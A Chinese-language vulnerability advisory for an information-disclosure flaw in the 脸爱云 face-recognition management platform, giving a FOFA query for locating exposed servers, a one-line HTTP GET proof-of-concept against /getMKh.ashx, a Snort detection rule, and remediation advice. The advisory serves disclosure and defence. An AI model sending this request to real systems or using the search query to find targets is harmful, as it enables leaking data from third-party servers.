

# 脸爱云-getMKh-信息泄露

脸爱云-getMKh-信息泄露，导致数据信息泄露或者导致服务器被控制。

# 影响版本

一脸通智慧管理平台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title=="欢迎使用脸爱云 一脸通智慧管理平台" || body="View/UserReserved/UserReservedTest.aspx"

POC/EXP：

```
GET /getMKh.ashx?TyName=Inyt HTTP/1.1
Host:127.0.0.1
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"脸爱云 - /getMKh.ashx TyName=Inyt 信息泄露";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/getMKh.ashx";
        fast_pattern;
    http.uri;
        content:"TyName=Inyt";
    metadata:
        service http,
        affected_product "脸爱云",
        vulnerability_type "Information Disclosure",
        severity "medium";
    classtype:sensitive-information-leak;
    sid:1000740;
    rev:1;
    priority:2;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
